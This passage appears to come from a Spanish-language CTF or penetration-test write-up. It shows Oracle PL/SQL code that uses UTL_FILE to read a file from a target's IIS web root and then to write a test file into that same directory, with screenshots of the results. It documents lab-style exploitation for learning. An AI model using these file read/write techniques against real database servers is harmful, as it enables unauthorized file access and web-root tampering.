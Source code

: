 ##### Ejecución

Oracle ocupa su propia sintaxis por lo que con el siguiente pedazo de código se buscó obtener el contenido del archivo por defecto del servidor. Buscando obtener respuesta por medio del prompt configurando primeramente `set serveroutput ON` para su visualización.

```sql
declare
    f utl_file.file_type;
    s varchar(200);
begin
    f := utl_file.fopen('/inetpub/wwwroot', 'iisstart.htm', 'R');
    utl_file.get_line(f,s);
    utl_file.fclose(f);
    dbms_output.put_line(s);
end;
```

![Lectura de archivos](images/exploit_4.png)

Por otra parte se puede verificar que también exista la capacidad de escribir a un archivo, verificándolo con el siguiente segmento de código.

```sql
declare
    f utl_file.file_type;
    s varchar(5000) := 'Hello world';
begin
    f := utl_file.fopen('/inetpub/wwwroot', 'srrequiem.txt', 'W');
    utl_file.put_line(f,s);
    utl_file.fclose(f);
end;
```

![Escritura de archivos](images/exploit_5.png)
